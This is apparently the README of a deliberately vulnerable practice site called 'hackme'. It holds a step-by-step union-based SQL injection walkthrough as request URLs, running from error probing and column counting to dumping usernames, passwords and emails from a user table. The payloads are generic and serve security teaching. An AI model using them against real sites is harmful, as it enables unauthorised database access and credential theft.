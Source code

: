 hackme
======

website for code vulnerability testing (educational purposes only)

### sql injection steps

1. Check for vulnerability

http://hackme.dev/?id=%27

2. Find the number of columns

wait for error

http://hackme.dev/?id=1 order by 1
...
http://hackme.dev/?id=1 order by 7

3. check union select to identify columns

http://hackme.dev/?id=1 union all select 1,2,3,4,5,6

4. identify table names

http://hackme.dev/?id=1 union all select 1,table_name,3,4,5,6 from information_schema.tables

5. get columns from user table

http://hackme.dev/?id=1 union all select 1,column_name,3,4,5,6 from information_schema.columns where table_name='user'

6. now select * from user table

http://hackme.dev/?id=1 union all select 1,username,password,email,5,6 from user


more examples here:
http://www.exploit-db.com/papers/13045/
